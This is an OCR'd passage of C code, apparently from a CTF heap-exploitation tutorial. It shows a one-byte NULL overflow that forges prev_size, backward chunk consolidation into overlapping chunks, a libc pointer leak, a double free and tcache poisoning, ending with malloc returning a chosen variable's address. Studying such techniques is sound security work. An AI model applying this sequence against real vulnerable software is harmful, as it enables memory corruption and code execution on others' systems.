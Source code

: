 ```cs

    tcache1[0]=malloc(0xF8);//creates one free place in 0xf8 tcache 
    // b will go to tcache after free(). 

    // in the CTF task we can only write data to chunks
    // right after mallocing this chunk
    free(b);
    b = malloc(0xf8);
    // buffer overflow b by 1 NULL byte
    b[0xf8] = '\x00'; //clear prev in use of c
    *(long*)(b+0xf0) = 0x210; //We can set prev_size of c to 0x210 bytes
    printf("b: %p\n",b);
   
    // make 0xf8 tcache full
    free(tcache1[0]);

    // c have prev_in_use=0 and prev_size=0x210 so it will consolidate 
    // with a and b and it will be put in unsorted bin
    free(c);
    
    // make 0x108 tcache empty
    for(int i=0;i<7;i++)
        tcache2[i]=malloc(0x108);


    // now we can allocate chunks from the area of a|b|c
    char *A = malloc(0x108);
    printf("A: %p\n",A);

    // leak libc
    printf("b content: %p\n",((long*)b)[0]);

    // make 0x108 tcache full because we can have max 10 chunks allocated 
    for(int i=0;i<7;i++)
        free(tcache2[i]);

    // Both 0xf8 and 0x108 tcache bins are full

    // let's allocate chunk that overlaps b.
    char *B = malloc(0x1F8);
    printf("B: %p\n",B);

    // now, chunks B and b are allocated and have the same address. 
    // now we can use double free and tcache poisoning attack

    // double free
    free(B);
    free(b);
    // now, 0x1F8 tcache bin contains 2 the same chunks 

    // allocate one of them and set next pointer to known address
    b = malloc(0x1F8);
    *(long*)(b) = &var;
    
    malloc(0x1F8);
	
    // the allocated chunk will have an address of variable var
    char *super_pointer = malloc(0x1F8);
	
    printf("%p %p\n",super_pointer,&var);
}
```

